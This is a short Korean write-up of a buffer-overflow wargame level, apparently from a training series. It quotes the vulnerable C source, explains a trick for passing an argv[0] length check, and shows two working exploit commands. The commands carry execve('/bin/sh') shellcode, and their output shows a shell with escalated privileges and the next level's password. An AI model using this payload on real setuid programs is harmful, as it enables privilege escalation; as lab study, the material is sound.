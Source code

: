 ```c
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

아까랑 똑같은데 argv[0] 길이 체크하는 루틴이 생겨났다. 보고 생각나는 아이디어는 링크걸어서 이름 바꾸는 거랑 '././././/./././/./././orge' 막 이렇게 별 의미없는 문자를 더해서 하는 거였는데, 둘 다 됨. 

주의할 점은 gdb로 보는 건 /home/darkelf/./././orge 뭐 이렇게 되면서 argv[0]에 /home/darkelf 가 붙는다는 점인데, 실제로는 argv[0]가 shell에서 입력한게 들어가서 ./././orge 이런식으로 된다. 개수 착각해서 헛짓거리 많이 햇다...



```shell
[darkelf@localhost darkelf]$ ./DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD `python -c 'print "\x90"*40+"\x08\xf9\xff\xbf"+"\x68\xfb\xff\xbf"+" "+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`                                             󾩻ÿ¿
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```



```shell
[darkelf@localhost darkelf]$ .////////////////////////////////////////////////////////////////////////orge `python -c 'print "\x90"*40+"\x08\xf9\xff\xbf"+"\x68\xfb\xff\xbf"+" "+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`                                             󾩻ÿ¿
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```
